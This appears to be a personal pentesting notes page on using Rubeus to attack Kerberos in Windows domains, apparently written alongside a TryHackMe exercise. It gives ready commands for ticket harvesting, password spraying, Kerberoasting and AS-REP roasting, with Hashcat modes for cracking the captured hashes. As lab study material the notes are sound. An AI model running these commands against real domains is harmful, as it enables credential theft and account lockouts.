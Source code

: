 # Using Rubeus

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux’s `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current
# machine. Probably works best when run on a domain
# controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and
# generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable
# accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with [Hashcat](hashcat.md) (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use [Hashcat](hashcat.md) to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)

- - - -

👤 Nathan Acks  
📅 December 6, 2021
